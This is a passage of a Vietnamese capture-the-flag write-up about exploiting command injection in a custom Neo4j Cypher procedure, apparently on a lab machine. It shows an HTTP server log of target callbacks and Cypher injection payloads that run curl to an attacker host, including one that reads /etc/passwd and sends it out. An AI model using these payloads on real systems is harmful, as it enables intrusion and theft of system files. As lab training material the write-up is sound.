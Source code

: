 ```
❯ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.57 - - [18/Sep/2025 12:48:02] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:02] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:02] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:02] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:03] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:04] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:05] "GET / HTTP/1.1" 200 -
10.10.11.57 - - [18/Sep/2025 12:48:06] "GET / HTTP/1.1" 200 -
```

Để khai thác được cmdi thì tôi inject vào url 

```
MATCH (n:DNS_NAME) WHERE n.scope_distance = 0 CALL custom.getUrlStatusCode("http://test.com; curl http://10.10.14.8:8888/submit?lmao=hihi") YIELD statusCode RETURN n.data, statusCode
```
Chứng minh được có cmdi:

<img width="848" height="527" alt="image" src="https://github.com/user-attachments/assets/f333a40f-75d3-439a-8067-87811956714d" />

Tôi lấy đoạn script python để bắt các request post [server.py](https://github.com/namdt5125/road_to_hecker/blob/main/Cypher/server.py)

Tôi mở file `/etc/passwd` bằng payload:

```
MATCH (n:DNS_NAME) WHERE n.scope_distance = 0 CALL custom.getUrlStatusCode("http://test.com; curl http://10.10.14.8:8888/submit?data=$(curl http://10.10.14.8:8888/submit -X POST -d \"data=$(cat /etc/passwd)\")") YIELD statusCode RETURN n.data, statusCode
```

Tôi biết được vị trí của `neo4j` là `/var/lib/neo4j` 
